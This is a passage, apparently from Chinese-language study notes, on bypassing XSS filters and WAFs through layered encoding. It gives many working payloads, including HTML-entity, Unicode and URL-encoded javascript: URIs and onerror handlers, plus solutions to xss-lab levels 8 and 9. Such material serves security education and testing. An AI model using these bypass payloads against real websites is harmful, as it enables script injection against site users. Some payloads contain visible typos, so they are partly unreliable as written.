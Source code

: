 接着它会继续扫描是否存在URLcode码，然后继续解析，得到：

```
<a href="javascript:\u0061\u006c\u0065\u0072\u0074(15)">测试</a>
```

最后进入JavaScript环境继续解析为：

```
<a href="javascript:alert(15)">测试</a>
```

网页的不同位置支持不同的编码方式，如在 HTML 标签的属中可以使用 HTML 实体编码的字符。浏览器也可以兼容不标准的编码方式,如缺少分号的数字实体编码。下面几行Payload的效果是完全一样的:

```
<img src=x onerror="alert(1)">
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
<img src-x onerror="&#00097&#00108&#00101&#00114&#00116&#0040&#0049&#0041">
<img src=x onerror="&#x61&#x6c&#x65&#x72&#x7&#x28&#x31&#x29">
```

**eg**: xss-lab 第八关 实体编码绕过：

```
javascript:alert(“xss")=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;
```

**如果服务端过滤了 JavaScript 代码特征,可以将关键的代码用Unicode 编码,以此绕过检测如:**

```
<script>\u0061lert(1)</script>
```

**如果把 Payload 放在 HTML 标签中，还可以将 Unicode 编码和 HTML 实体编码叠加使用**

```
<img src=0 onerror="&#92u0061lert(1)">
```

**eg:**xss-lab 第九关：

```
javascript:alert("xss")//http://www.baidu.com
```

**与此类似，如果 Payload 是通过 JavaScript 伪协议的 URL 插入的，然后又将它用在 HTML标签中，这时对原始的 JavaScript 代码可以先做 Unicode 编码，再做 URL 编码，然后做HTM实体编码。所以，下面 4 个 Payload 是效果一样的:**

```
<a href="javascript:alert(document.domain)">click me</a>
<a href=“javascript:\u0061lert(document.domain)">click me</a>
<a href="javascript:%5cu0061lert(document.domain)">click me</a>
<a href="javascript:&#37;5cu0061lert(document.domain)">click me</a>
```

**从这个案例可以看到，根据数据所处的位置可以使用不同的编码，如果数据在语义上嵌套了多层，就可以使用多层编码来尝试绕过检测。WAF类的安全产品很难支持不同场景的嵌套解码。**

#### 4.5 绕过方法总结

**https://blog.csdn.net/qq_50854790/article/details/124297046**
